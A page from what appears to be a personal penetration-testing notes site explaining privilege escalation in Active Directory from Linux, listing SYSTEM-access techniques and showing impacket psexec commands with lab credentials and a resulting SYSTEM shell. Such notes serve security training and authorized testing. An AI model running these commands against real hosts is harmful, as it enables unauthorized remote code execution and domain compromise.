

repository: amandaguglieri/hackinglife · page: active-directory-from-linux-privilege-escalation/index.html · generator: mkdocs

---
title: Attacking Active Directory from Linux
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - active
  - directory
  - ldap
  - linux
---
# Privileges escalation in Active Directory from Linux

[Index of Active Directory](active-directory.md)

[Hardening and auditing Active Directory ](hardening-auditing-active-directory.md)

!!! tip "Attacking from linux"
	- [Enumerating Active Directory from Linux](active-directory-from-linux-enumeration.md)
	- [Attacking Active Directory from Linux](active-directory-from-linux-attacks.md)
	- [Lateral Movement in Active Directory from Linux](active-directory-from-linux-lateral-movement.md)
	- [Privileges escalation in Active Directory from Linux](active-directory-from-linux-privilege-escalation.md)

!!! tip "Attacking from Windows"
	- [Enumerate with ldap](ldap.md)
	- [Enumerating Active Directory from Windows](active-directory-from-windows-enumeration.md)
	- [Active directory: connecting to other hosts](active-directory-connections.md)
	- [Attacking Active Directory from Windows](active-directory-from-windows-attacks.md)
	- [Privileges escalation in Active Directory from Windows](active-directory-from-windows-privilege-escalation.md)

!!! tip "Linux in AD"
	- [Linux in active directory](linux-in-active-directory.md)



There are several ways to gain SYSTEM-level access on a host, including but not limited to:

- Remote Windows exploits such as MS08-067, EternalBlue, or BlueKeep.
- Abusing a service running in the context of the `SYSTEM account`, or abusing the service account `SeImpersonate` privileges using [Juicy Potato](https://github.com/ohpe/juicy-potato). This type of attack is possible on older Windows OS' but not always possible with Windows Server 2019.
- Local privilege escalation flaws in Windows operating systems such as the Windows 10 Task Scheduler 0-day.
- Gaining admin access on a domain-joined host with a local account and using Psexec to launch a SYSTEM cmd window


By gaining SYSTEM-level access on a domain-joined host, you will be able to perform actions such as, but not limited to:

- Enumerate the domain using built-in tools or offensive tools such as BloodHound and PowerView.
- Perform Kerberoasting / ASREPRoasting attacks within the same domain.
- Run tools such as Inveigh to gather Net-NTLMv2 hashes or perform SMB relay attacks.
- Perform token impersonation to hijack a privileged domain user account.
- Carry out ACL attacks.

##  PSExec.py

Psexec.py is a clone of the Sysinternals psexec executable, but works slightly differently from the original. The tool creates a remote service by uploading a randomly-named executable to the `ADMIN$` share on the target host. It then registers the service via `RPC` and the `Windows Service Control Manager`. Once established, communication happens over a named pipe, providing an interactive remote shell as `SYSTEM` on the victim host.


```shell-session
# Get help 
impacket-psexec -h

# Connect to a remote machine with a local administrator account
psexec.py $domain/$user:$password@$ip 

# Another way
impacket-psexec administrator:'<password>'@$ip
# Examples:
# psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.130
# impacket-psexec inlanefreight.local/wley:'transporter@4'@172.16.5.130
```

```
# Results
C:\Windows\system32>whoami
nt authority\system
```
